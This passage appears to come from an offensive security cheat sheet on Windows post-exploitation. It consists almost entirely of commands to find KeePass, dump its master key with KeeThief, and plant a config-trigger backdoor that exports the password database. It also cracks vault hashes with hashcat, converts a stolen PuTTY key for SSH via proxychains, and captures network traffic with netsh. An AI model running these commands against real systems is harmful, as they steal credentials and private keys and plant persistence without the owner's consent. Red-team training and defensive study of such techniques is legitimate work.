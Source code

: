 ## KeePass
- https://github.com/GhostPack/KeeThief
#### Enumeration
```
type %APPDATA%\KeePass\KeePass.config.xml
tasklist | findstr /I keepass
dir /s "C:/" | findstr "KeePass"
Get-Process keepass
```

#### Dump KeePass Masterkey
```
Get-KeePassDatabaseKey -Verbose
```

#### Create backdoor in config
```
Find-KeePassconfig -Path $env:appdata\KeePass
Get-KeePassConfigTrigger -Path $env:appdata\KeePass\KeePass.config.xml -Verbose
Add-KeePassConfigTrigger -Path $env:appdata\KeePass\KeePass.config.xml -Verbose -ExportPath C:\users\public\
```

#### Guess master password
- Remove the username
```
keepass2john Passwords.kdbx > hash.txt
hashcat -m 13400 -a 0 hash.txt rockyou.txt -r dive.rule
```

## Putty ppk file
```
sudo apt install putty-tools
puttygen privkey.ppk -O private-openssh -o priv_key
proxychains ssh -i priv_key <USER>@<IP>
```

## Network Sniffing
### netsh
### Start netsh packet capture
```
netsh trace start capture=yes
```

#### Stop packet capture
```
netsh trace stop
```

#### Transform the .etl file to pcap file
- https://github.com/microsoft/etl2pcapng
```
.\etl2pcapng.exe NetTrace.etl capture.pcapng
```
